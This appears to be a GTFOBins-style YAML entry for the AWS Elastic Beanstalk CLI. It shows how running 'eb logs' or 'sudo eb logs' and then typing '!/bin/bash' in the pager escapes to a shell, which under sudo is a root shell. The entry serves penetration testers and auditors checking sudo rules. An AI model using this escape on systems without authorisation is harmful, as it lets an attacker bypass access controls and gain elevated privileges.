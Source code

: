 ```yaml
---
functions:
  shell:
    - description: This invokes the default logging service, which is likely to be [`journalctl`](/gtfobins/journalctl/), other functions may apply. For this to work the target must be connect to AWS instance via EB-CLI.
      code: |
        eb logs
        !/bin/bash
  sudo:
    - description: This invokes the default logging service, which is likely to be [`journalctl`](/gtfobins/journalctl/), other functions may apply. For this to work the target must be connect to AWS instance via EB-CLI.
      code: |
        sudo eb logs
        !/bin/bash
---
```

